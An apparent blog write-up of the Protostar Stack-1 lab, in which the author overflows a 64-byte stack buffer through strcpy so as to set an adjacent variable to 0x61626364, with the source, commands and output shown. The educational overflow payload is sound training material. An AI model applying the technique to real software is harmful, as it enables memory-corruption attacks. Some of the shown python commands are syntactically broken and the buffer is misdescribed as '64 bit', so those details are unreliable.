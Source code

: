 ```yaml
---
author: "faizul"
title: "Protostar Stack-01"
date: 2020-09-30T12:30:06+10:00
description: "Exploit-Exercise Protostar Stack-1"
draft: false
hideToc: false
enableToc: true
enableTocContent: false
image: images/protostar/protostar.jpeg
tags: 
- reverse-engineering
- protostar
- exploit-exercise
- buffer-overflow
categories:
- writeup
- reverse-engineering
- buffer-overflow
---
```


# Stack 1

## About

This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

This level is at /opt/protostar/bin/stack1

### Hints

- If you are unfamiliar with the hexadecimal being displayed, `man ascii` is your friend.
- Protostar is little endian


## Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

## First run
```bash
user@protostar:/opt/protostar/bin$ ./stack1 a
Try again, you got 0x00000000


user@protostar:/opt/protostar/bin$ ./stack1 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Try again, you got 0x00000061
```

Just like last activity, i use the same payload as the code also hold only 64 bit value of buffer and looks like i almost solve the activity. 

Lets try the python payload.

```bash
user@protostar:~$ python -c "print 'A' * 65 | xargs /opt/protostar/bin/stack1

Try again, you got 0x00000041
```

Dig in the code, we can found that `if(modified == 0x61626364)` then the program will print `you have correctly got the variable to the right value`. 

The value of 0x61626364 is actually hexadecimal value that gave us x64 which is equal to d, x63 to c, x62 to b and x61 to a.

Remember the hints given on the #About section, `Protostar is little endian`. This means the value should be in inverse where `least significant byte in the smallest address`. 

In order to satisfy the value set on code, we have to place the payload like `dcba` or `\x64\x63\x62\x61`.

```bash
user@protostar:~$ python `print("A" * 64 + "\x64\x63\x62\x61")` | xargs /opt/protostar/bin/stack1

you have correctly got the variable to the right value
```

